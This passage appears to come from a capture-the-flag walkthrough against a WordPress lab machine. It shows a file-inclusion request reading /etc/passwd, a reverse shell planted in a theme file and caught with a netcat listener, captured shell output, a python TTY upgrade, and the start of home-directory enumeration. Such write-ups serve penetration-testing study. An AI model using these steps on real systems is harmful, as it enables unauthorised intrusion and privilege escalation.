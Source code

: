 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```

Once the changes are made the file can be saved.

The file has be browsed to execute the reverse shell. (Theme files usually
reside in /wp-content/themes directory). The theme’s name is twentynineteen so
the URL syntax would be as following:

http://\<ip address\>/wordpress/wp-content/themes/twentynineteen/secret.php

Next, on the Kali machine netcat needs to be fired up to listen on the desired
port and when the file is browsed the reverse shell is obtained.

root\@kali:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.20.144] from (UNKNOWN) [192.168.20.149] 57386

Linux ubuntu 4.10.0-28-generic \#32\~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC
2017 x86_64 x86_64 x86_64 GNU/Linux

16:02:36 up 1:13, 0 users, load average: 0.00, 0.00, 0.02

USER TTY FROM LOGIN\@ IDLE JCPU PCPU WHAT

uid=33(www-data) gid=33(www-data) groups=33(www-data)

/bin/sh: 0: can't access tty; job control turned off

Privilege Escalation
--------------------

Once the low privilege shell is obtained it needs to be upgraded to a TTY shell,
so commands such as su can be used. This is achieved with the following python
command:

\$ python -c "import pty;pty.spawn('/bin/bash')"

www-data\@ubuntu:/\$

### Enumeration

From previous enumeration it’s known that home directory of user saket is
available. Let’s enumerate it further.

www-data\@ubuntu:/var/www\$ cd /home/saket

cd /home/saket

www-data\@ubuntu:/home/saket\$ ls -laht

ls -laht

total 36K

drwxr-xr-x 2 root root 4.0K Aug 31 03:15 .

\-rw-r--r-- 1 root root 33 Aug 31 03:14 user.txt

\-rw------- 1 root root 20 Aug 31 03:08 .bash_history

\-rwxr-x--x 1 root root 14K Aug 30 08:48 enc

```